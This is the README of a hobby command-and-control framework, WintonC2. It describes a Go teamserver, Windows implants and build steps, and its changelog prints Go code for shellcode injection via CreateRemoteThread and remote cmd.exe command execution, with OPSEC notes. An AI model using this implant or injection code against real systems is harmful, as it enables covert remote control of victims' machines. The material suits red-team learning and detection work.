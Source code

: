 ![Winton](https://i.imgur.com/Pmrv5t7.png)

# WintonC2

_Yet another Command and Control (C2) framework written in Go_

I wrote this to learn more about C2 internals, OPSEC considerations in beacon and to learn Golang _(i still can't get function imports to work)_.


## Features
### Teamserver
> Written in Golang 1.21.1 (tested on Windows/AMD64)
- Support for multiple listeners, but only HTTP is implemented
- Multiple agents & asynchronous callbacks
- Todo: HTTPS listener, authentication & internal API for operator interaction 

### Implant
> Written in Golang 1.21.1 (tested on Windows/AMD64) 
- Built-ins are implemented via the Golang standard library, may spawn cmd.exe
- Supported commands: `ls`, `whoami`, `pwd`, `shell`, `ps`, `getpid`, `inject`
- Process Injection via `CreateRemoteThread`
  
![WintonC2](https://i.gyazo.com/e10bcbdd23217af2032ba1de39639ed5.png)

### Client
> Written in Python 3.9+ 
- Communicates directly with the `teamserver`

## Compilation
The `teamserver` compiles to a single golang binary:
```bash
cd ./teamserver && make 
cd ./bin && ./teamserver <ip> <port> <password>
```

The Go agent `Wonton` is compiled to a single golang binary:
```bash
cd './implan/Wonton (GO)\' && make
cd ./bin && ./winton-win64.exe
```

The C agent `Wanton` has a MSVC solution file, compile the solution in `Release` mode (not really maintained, probably broken):
```bash
gcc -Wall -std=c99 -o Wanton.exe Commands.c Main.c Utils.c -lcurl
```
_A Makefile is not provided because I am lazy_

## Change Log

#### 24/11/2023 - Shellcode Injection via CreateRemoteThread (Session Passing)
- 2 new commands: `ps` and `inject`
    - `ps` lists all running processes on the target as well as their PID, PPID, Name, Arch, Session & User.
        - `Usage: ps`
![24/11/2023](https://i.imgur.com/GAYSs0m.png)
    - `inject` injects shellcode into a running process via `CreateRemoteThread`
![24/11/2023](https://i.imgur.com/H7OD72D.png)
        - `Usage: inject <pid> <path_to_binfile>`
        - `Example: inject 17952 ../shellcode/calc/calc.bin`
        - The shellcode is loaded from a file, and is base64 encoded before being sent to the target.
        - The shellcode is then decoded and injected into the target process via `CreateRemoteThread`
        ```go
        var kernel32 = windows.NewLazySystemDLL("kernel32.dll")

        var (
            virtualAllocEx      = kernel32.NewProc("VirtualAllocEx")
            writeProcessMemory  = kernel32.NewProc("WriteProcessMemory")
            createRemoteThread  = kernel32.NewProc("CreateRemoteThread")
            WaitForSingleObject = kernel32.NewProc("WaitForSingleObject")
            closeHandle         = kernel32.NewProc("CloseHandle")
        )
        ...
        process_handle, err := windows.OpenProcess(..., uint32(pid), ...)
        ...
        addr, _, err := virtualAllocEx.Call(..., uintptr(len(shellcode)), ..., windows.PAGE_EXECUTE_READWRITE) // BAD
        ...
        _, _, err := writeProcessMemory.Call(..., addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
        ...
        thread_handle, _, err := createRemoteThread.Call(uintptr(process_handle), 0,  0, addr, 0, 0, 0)

        closeHandle.Call(uintptr(thread_handle))
        closeHandle.Call(uintptr(process_handle))
        ```
    - OPSEC considerations (why this is a budget injection):
        - `VirtualAllocEx` is called with PAGE_EXECUTE_READWRITE
        - Unbacked memory allocation 
        - Thread start address is 0x0 

- `./shellcode/calc/calc.bin` is x64 shellcode that spawns calc.exe ~ [_thanks boku7_](https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode/blob/main/win-x64-DynamicKernelWinExecCalc.asm)
- `./shellcode/beacon/winton-win64.bin` is x64 shellcode that spawns a new beacon ~ [_thanks donut_](https://github.com/TheWover/donut) -
    - generated using [exe2_csh](https://github.com/gatariee/exe2c_sh) 
    - `./exe2sh.py -i winton-win64.exe -o ./shellcode/beacon/winton-win64.bin`

#### 15/11/2023 - Mass codebase refactoring & implementation of shell commands 
- The codebase has been refactored to be more modular and easier to read, (teamserver & go implant)
    - Doesn't exactly follow Go best practices, but it's certainly better than before. 
- The `teamserver` and `implant (go)` now have Makefiles and support for cross-compilation, see [here](./implant/Wonton%20(GO)/Makefile) and [here](./teamserver/Makefile) for more info.
- Added support for `shell` commands in beacon
    - Spawns `cmd.exe /c {task}`, not opsec safe.
```go
func shell(command string) (string, error) {
cmd := exec.Command("cmd.exe", "/c", command)
stdout, err := cmd.Output()
if err != nil {
    return "", err
}
return string(stdout), nil
}
```
![15/11/2023](https://i.imgur.com/JVeojRf.png)

#### 12/11/2023 - Wanton has a better (and much bigger) brother implant! (Wonton)
- The [new implant](./implant/Wonton%20(GO)/) is written in Go.
- Although this was much more convenient to write, Golang binaries have the downside being much larger than C binaries.
    - The C implant is 75KB, the Go implant is 7,165KB.
- The Go implant is also much more stable than the C implant, and has more features.
    - The C implant will be removed in the future.
- Currently has support for 2 commands: `whoami` and `ls`
![12/11/2023](https://i.imgur.com/ZkIaKIw.png)
![12/11/2023](https://i.imgur.com/lcZvWN7.png)

#### 10/11/2023 - Winton now has an agent for Windows! (Wanton)
- The agent is written in C and is extremely unstable! :D, and barely functional.
    - This implant will probably be abandoned cos I hate parsing JSON in C, but this was a nice WinAPI sanity check.
- Currently only has support for `pwd`, but more commands will be added eventually.
    ![10/11/2023](https://i.imgur.com/D2nVffY.png)
#### 9/11/2023 - Beacons can now go offline!
- If the callback from the last beacon is over `Agent.Sleep + 5` seconds, the beacon will be marked as down (_but should still listening for callbacks_).
   - In its current state, the agent gets completely removed from the `AgentList[]` and `AgentCallbacks[]` if it goes offline, this will be changed in the future to allow for offline agents to still be in the list.
    ![9/11/2023](https://i.imgur.com/CZm1eGe.png)
- The change of beacon state is also reflected in the `AgentList[]` and `AgentCallbacks[]` tables
    ![9/11/2023](https://i.imgur.com/p87EHej.png)
